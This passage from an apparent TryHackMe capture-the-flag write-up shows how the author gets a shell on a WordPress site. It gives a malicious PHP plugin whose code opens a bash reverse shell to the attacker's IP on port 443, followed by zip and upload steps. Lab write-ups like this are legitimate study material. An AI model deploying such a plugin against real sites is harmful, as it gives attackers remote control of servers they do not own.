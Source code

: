 I'm in!

Next, to get a shell, we can **add a reverse shell plugin**!

**To do so, I'll:**

- Create a PHP reverse shell and zip it:

**PHP reverse shell for WordPress plugin:**
```php
<?php 
/**
* Plugin Name: Revshell
* Author: siunam
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.27.249/443 0>&1'")
?>
```

```                                                                                                        
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# zip revshell.zip revshell.php
```

- Upload it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Ghizer/images/a8.png)
